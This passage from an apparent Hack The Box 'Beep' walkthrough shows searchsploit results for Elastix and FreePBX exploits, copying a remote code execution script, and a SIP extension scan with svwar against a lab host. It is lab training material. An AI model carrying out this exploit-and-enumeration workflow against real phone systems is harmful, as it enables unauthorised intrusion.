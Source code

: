 ```bash
Elastix 2.x - Blind SQL Injection                                                   | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                  | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                              | php/webapps/18650.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

# Exploit

## Exploit - RCE

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# searchsploit -m 18650

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# cat 18650.py   
...
```

From the script, it seems like we need to change 3 things - `rhost`, `lhost` and `extension`. I have no idea what was the `extension` that the script mentioned. So I Googled for `find voip extensions kali` and it returned a result to kali’s `sipvicious` [package](https://www.kali.org/tools/sipvicious/) which had `svwar` - an extension line scanner.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# svwar -h          
Usage: svwar [options] target
examples:
svwar -e100-999 udp://10.0.0.1:5080
svwar -d dictionary.txt 10.0.0.2
...
  -m OPTIONS, --method=OPTIONS
                        specify a request method. The default is REGISTER.
                        Other possible methods are OPTIONS and INVITE
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# svwar -m INVITE -e100-999 10.10.10.7 
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
WARNING:TakeASip:extension '690' probably exists but the response is unexpected
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 690       | weird          |
+-----------+----------------+
```
